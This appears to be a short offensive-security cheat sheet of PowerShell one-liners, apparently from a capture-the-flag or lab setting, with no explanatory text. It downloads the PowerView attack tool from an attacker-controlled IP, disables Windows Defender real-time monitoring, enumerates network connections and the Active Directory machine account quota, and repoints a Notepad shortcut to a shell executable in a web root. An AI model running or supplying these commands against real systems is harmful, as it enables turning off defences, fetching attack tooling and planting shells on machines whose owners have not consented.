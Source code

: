 ```Powershell
Invoke-WebRequest -Uri http://10.10.14.176:8000/PowerView.ps1 -OutFile PowerView.ps1
```

Disable AV
```powershell
# Disable real-time protection 
Set-MpPreference -DisableRealtimeMonitoring $true
```

```Powershell
netstat -aon
```

```Powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DSMachineAccountQuota
```

Shortcuts
```Powershell
$targetPath = "C:\xampp\htdocs\5shell.exe"
$shortcutPath = "C:\Common Applications\Notepad.lnk"
$shell = New-Object -ComObject WScript.Shell
$shortcut = $shell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $targetPath
$shortcut.Save()
```
